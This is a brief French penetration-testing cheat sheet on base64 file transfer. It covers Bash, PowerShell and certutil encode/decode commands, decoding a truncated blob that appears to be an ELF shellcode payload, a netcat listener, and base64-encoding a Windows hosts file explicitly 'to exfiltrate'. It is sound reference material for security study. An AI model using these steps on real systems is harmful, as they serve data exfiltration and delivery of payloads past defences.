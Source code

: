 ## Encoder fichier en base64

BASH

```bash
base64 fichier -w 0
```

POWERSHELL

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

CERTUTIL #LOLBAS

```powershell
certutil -encode file.ext file.base64
```
## Décoder fichier en base64

BASH

```bash
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > fichier
```

POWERSHELL

```powershell
[IO.File]::WriteAllBytes("C:\Path\to\file", [Convert]::FromBase64String("Base64String"))
```

CERTUTIL #LOLBAS 

```powershell
certutil -decode file.base64 file.ext
```

# BASE64 UPLOADS (POST-REQUEST)

## Lancer listener netcat

```sh
nc -lvnp 8000
```

## Convertir le fichier à exfiltrer en Base64

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
